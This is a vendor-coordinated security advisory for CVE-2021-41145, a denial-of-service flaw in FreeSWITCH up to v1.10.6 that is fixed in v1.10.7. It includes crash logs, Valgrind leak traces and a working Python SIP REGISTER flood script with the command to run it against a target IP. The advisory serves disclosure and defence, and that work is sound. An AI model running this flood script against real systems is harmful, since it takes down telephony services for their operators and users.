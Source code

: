 # FreeSWITCH susceptible to Denial of Service via SIP flooding

- Fixed versions: v1.10.7
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-06-freeswitch-flood-dos
- Vendor Security Advisory: https://github.com/signalwire/freeswitch/security/advisories/GHSA-jvpq-23v4-gp3m
- Other references: CVE-2021-41145
- Tested vulnerable versions: <= v1.10.6
- Timeline:
    - Report date: 2021-05-28
    - Triaged: 2021-06-18
    - Fix provided for testing: 2021-10-08
    - Second fix provided for testing: 2021-10-13
    - Vendor release with fix: 2021-10-24
    - Enable Security advisory: 2021-10-25

## Description

When flooding FreeSWITCH with SIP messages, it was observed that after a number of seconds the process was killed by the operating system due to memory exhaustion. The following excerpt from syslog shows one such instance:

```
May 25 15:19:30 ubuntu-bionic kernel: [ 4205.446584] Out of memory: Kill process 22590 (freeswitch) score 939 or sacrifice child
May 25 15:19:30 ubuntu-bionic kernel: [ 4205.449845] Killed process 22590 (freeswitch) total-vm:10484768kB, anon-rss:7894136kB, file-rss:0kB, shmem-rss:0kB
May 25 15:19:30 ubuntu-bionic kernel: [ 4205.720680] oom_reaper: reaped process 22590 (freeswitch), now anon-rss:0kB, file-rss:0kB, shmem-rss:0kB
```

The tests were carried out using the SIP messages REGISTER, SUBSCRIBE, NOTIFY, PUBLISH, MESSAGE, INVITE and OPTIONS. On a machine with 8 gigabytes of RAM, the FreeSWITCH process crashed after 90 seconds of flooding with the SIP message REGISTER.

![Memory consumption over time during SIP flood attack against FreeSWITCH](memory-usage.png)

When FreeSWITCH was run using [Valgrind](https://valgrind.org/), it was reported that large chunks of memory were being allocated in functions from the Sofia-SIP library source file `su_alloc.c`. Valgrind was executed with the flag `--leak-check=full` in order to get a detailed report of potential memory leaks. The target was flooded for a few seconds and then FreeSWITCH was gracefully terminated. The following is an excerpt from the report which identified large numbers of memory allocations in the function `su_home_new` in `su_alloc.c`:

```
2021-05-25 15:23:48.870010 [CONSOLE] switch_core_memory.c:671 Stopping memory pool queue.
==401426== 
==401426== HEAP SUMMARY:
==401426==     in use at exit: 26,039,233 bytes in 87,160 blocks
==401426==   total heap usage: 7,195,625 allocs, 7,108,465 frees, 986,221,122 bytes allocated
==401426== 
...
==401426== 25,718,877 (368 direct, 25,718,509 indirect) bytes in 1 blocks are 
            definitely lost in loss record 367 of 367
==401426==    at 0x483DD99: calloc (in /.../vgpreload_memcheck-amd64-linux.so)
==401426==    by 0x5422B57: su_home_new (su_alloc.c:569)
==401426==    by 0x53AFB16: nua_create (nua.c:146)
==401426==    by 0xA44D4B1: ???
==401426==    by 0x4C054EF: dummy_worker (thread.c:151)
==401426==    by 0x4D19608: start_thread (pthread_create.c:477)
==401426==    by 0x4E55292: clone (clone.S:95)
==401426== 
==401426== LEAK SUMMARY:
==401426==    definitely lost: 3,688 bytes in 35 blocks
==401426==    indirectly lost: 25,728,877 bytes in 86,737 blocks
==401426==      possibly lost: 133,576 bytes in 40 blocks
==401426==    still reachable: 173,092 bytes in 348 blocks
```


## Impact

By abusing this vulnerability, an attacker is able to crash any FreeSWITCH instance by flooding it with SIP messages, leading to Denial of Service. The attack does not require authentication and can be carried out over UDP, TCP or TLS.

## How to reproduce the issue

1. Build FreeSWITCH from source and install it
2. Run FreeSWITCH with the default configuration
3. Save the following Python script as `freeswitch-sipflood.py`

    ```python
    import socket, string, random, sys
    
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    cseq = 1
    UDP_IP = sys.argv[1]
    UDP_PORT = 5060
    
    while True:
        r = ''.join(random.choice(string.ascii_lowercase) for i in range(10))
    
        msg = "REGISTER sip:%s SIP/2.0\r\n" % (UDP_IP, )
        msg += "Via: SIP/2.0/UDP 127.0.0.1:46786;rport;branch=z9hG4bK-%s\r\n" % (r, )
        msg += "Max-Forwards: 70\r\n"
        msg += "From: <sip:98647499@%s>;tag=%s\r\n" % (UDP_IP, r, )
        msg += "To: <sip:98647499@%s>\r\n" % (UDP_IP, )
        msg += "Call-ID: %s\r\n" % (r, )
        msg += "CSeq: %s REGISTER\r\n" % (cseq, )
        msg += "Contact: <sip:98647499@%s:46786;transport=udp>\r\n" % (UDP_IP, )
        msg += "Expires: 60\r\n"
        msg += "Content-Length: 0\r\n"
        msg += "\r\n" 
    
        sock.sendto(msg.encode(), (UDP_IP, UDP_PORT))
    
        cseq += 1
    ```
4. Run the Python script and specify the target IP as the first command line parameter:

    ```bash
    python freeswitch-sipflood.py <target_ip>
    ```
5. Notice that the memory consumption of FreeSWITCH increases rapidly over time, until FreeSWITCH is killed by the underlying operating system

Note that in some cases where the test machine under attack has more memory resources, the attack done over UDP may not succeed in consuming all system memory. During our testing with SIPVicious PRO, however, we could always get the process to consume all the system's memory when the attack is done over TCP.

## Solution and recommendations

Upgrade to a version of FreeSWITCH that fixes this issue.

Our suggestion to the FreeSWITCH developers was the following:

> Our recommendation for FreeSWITCH developers is to review the code handling memory allocation and apply changes to address this issue. At Enable Security we're happy to test potential fixes for this issue.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

